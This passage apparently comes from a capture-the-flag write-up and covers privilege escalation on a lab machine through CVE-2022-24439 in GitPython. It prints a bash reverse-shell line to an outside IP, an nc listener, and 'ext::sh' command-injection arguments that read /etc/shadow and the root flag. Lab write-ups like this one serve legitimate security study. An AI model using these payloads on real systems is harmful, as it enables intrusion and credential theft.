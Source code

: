
## 4. Privilege Escalation: {#4-dot-privilege-escalation}


### Using CVE-2022-24439 GitPython Vulnerability to get a root shell. {#using-cve-2022-24439-gitpython-vulnerability-to-get-a-root-shell-dot}

-   Initially I check if `nc` is installed and it is however it has been compiled without the `-c` or `-e` flags so we cannot use it for reverse shell.
    -   {{< figure src="/ox-hugo/2024-12-22-083007_.png" >}}

-   This means we will need to use a bash shell. I run the following command to create a bash shell in the `/tmp/` folder:
    -   `echo "bash -i >& /dev/tcp/10.10.14.80/80 0>&1" >> /tmp/notashell.sh`

-   I start my listener:
    -   `rlwrap -cAr nc -nvlp 80`

-   Run the python script whilst passing the shell as an argument:
    ```shell
    sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/notashell.sh'
    ```

    -   {{< figure src="/ox-hugo/2024-12-22-084600_.png" >}}

-   Get our root flag:
    -   {{< figure src="/ox-hugo/2024-12-22-084641_.png" >}}


### Why do we need the `%` sign after bash: {#why-do-we-need-the-sign-after-bash}

-   So this was annoying me for sometime and I looked into it, every-time there is a space we need to supply the `%` to escape due to how `argv` handles special characters.
-   For instance we can read `/etc/shadow` by copying it to `/tmp/shad` by doing this:
    ```shell
    sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /etc/shadow% >>% /tmp/shad'
    ```

    -   We can then see if we navigate to `/tmp` we can read the file.
        -   {{< figure src="/ox-hugo/2024-12-22-085121_.png" >}}

    <!--listend-->

    -   This means any command can be run provided any spaces are followed by `%` symbol.
        -   Read the root flag this way:
            ```shell
            sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >>% /tmp/root.flag'
            ```

            -   {{< figure src="/ox-hugo/2024-12-22-085355_.png" >}}
